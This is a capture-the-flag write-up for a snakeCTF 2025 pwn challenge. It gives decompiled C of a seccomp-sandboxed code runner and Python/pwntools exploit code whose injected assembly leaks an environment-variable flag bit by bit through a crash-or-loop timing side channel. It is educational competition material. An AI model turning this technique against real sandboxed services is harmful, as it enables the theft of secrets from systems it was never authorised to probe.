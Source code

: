 # Saving The Environment [_snakeCTF 2025 Quals_]

**Category**: pwn

## Description

I have a super energy efficient server, so I'll let you run your code on it to save the environment.
Just don't run anything sketchy ok?

## Solution

We receive a compiled executable `chall` and a python wrapper script `wrapper.py` that handles crashes.

Decompiling the executable in ghidra we see that the program does 4 things:

1. Prints environment variables
2. Takes user code in input
3. Blocks all syscall
4. Executes user code

```c
void print_env(char **envp){
    int check;
    int i;
    bool found_flag;

    found_flag = false;
    for (i = 0; envp[i] != (char *)0x0; i = i + 1) {
        check = strncmp(envp[i],"FLAG=",5);
        if (check == 0) {
          puts("FLAG=... Lets not print this one...");
          found_flag = true;
        }
        else {
            puts(envp[i]);
        }
    }
    if (!found_flag) {
        puts("Error: FLAG not found in environment variables");
        exit(1);
    }
    return;
}

void main(int argc,char **argv,char **envp){

    uint code_len;
    undefined8 seccomp_filter;

    setvbuf(stdout,(char *)0x0,2,0);
    setvbuf(stdin,(char *)0x0,2,0);
    setvbuf(stderr,(char *)0x0,2,0);

    code_buffer = (byte *)mmap((void *)0x500000,0x200,7,0x22,-1,0);
    memset(code_buffer,0x90,8);

    puts("Environment Variables:");
    print_env(envp);

    code_len = 0;
    __isoc99_scanf("%u",&code_len);

    if (0x200 < code_len) {
        puts("You\'d like uh");
        exit(1);
    }

    read(0,code_buffer,(ulong)code_len);

    seccomp_filter = seccomp_init(0);
    seccomp_rule_add(seccomp_filter,0,1,0);
    seccomp_rule_add(seccomp_filter,0,0,0);
    seccomp_load(seccomp_filter);
    seccomp_release(seccomp_filter);

    (*(code *)code_buffer)(0,0,0,0,0,0);
    return;
}
```

The flag is stored in then environment variables but we cannot use any syscall to print it to stdout.

When our code is called most of the registers get reset, but the Stack and Base Pointer aren't modified, so the Stack Pointer still points the main function stack frame.

Having code execution and **knowing that the environment variables are stored on the stack** we can use a side channel timing attack to exfiltrate the flag.

### First Step

Knowing the order of the environment variables we can use a debugger to calculate the offset between the stack pointer and the flag in env.

### Second Step

Working bit by bit we can check if it's equal to 1 or 0.
With this check we then kill the process by calling a syscall or let it loop endlessly.

```python
def build_mask(i):
    # Builds the bitmask mask to extract only the i-th bit
    assert i<8 and i>=0
    mask="0b"+"0"*(7-i)+"1"+"0"*i
    return mask

def build_payload(env_var_n, bit_n):
    mask=build_mask(bit_n%8)

    payload=f"""
    main:
        mov rax, [rbp+0x128+{env_var_n*8}]
        mov rax, [rax+{bit_n//8}]
        and rax, 0xff
        and rax, {mask}
        cmp rax, 0
        je loop
        syscall

    loop:
        jmp loop

    """

    return asm(payload, vma=0x500000)
```

### Third Step

Since the wrapper script sends out an error message when the program crashes we can wait for the error message with a timeout.
If the timeout is hit then we entered the loop, else it was killed by the syscall.
From this we can determine whether the bit we checked was 1 or 0.

```python
def leak_bit(env_var_n, bit_n):
    # leaks the byte_n-th bit of the env_var_n-th environment variable

    payload=build_payload(env_var_n, bit_n)

    r = conn()
    r.sendline(str(len(payload)).encode())
    r.send(payload)

    res=r.recvuntil(b"Killed", timeout=1).decode()

    r.close()

    if res!="":
        return False
    else:
        return True


def leak_byte(env_var_n, byte_n):
    # leaks the byte_n-th byte of the env_var_n-th environment variable
    bits=[]
    for i in range(7):
        if leak_bit(env_var_n, byte_n*8+i):
            bits.append(0)
        else:
            bits.append(1)
    bits=bits[::-1]

    binary_str = ''.join(map(str, bits))
    return chr(int(binary_str, 2))
```
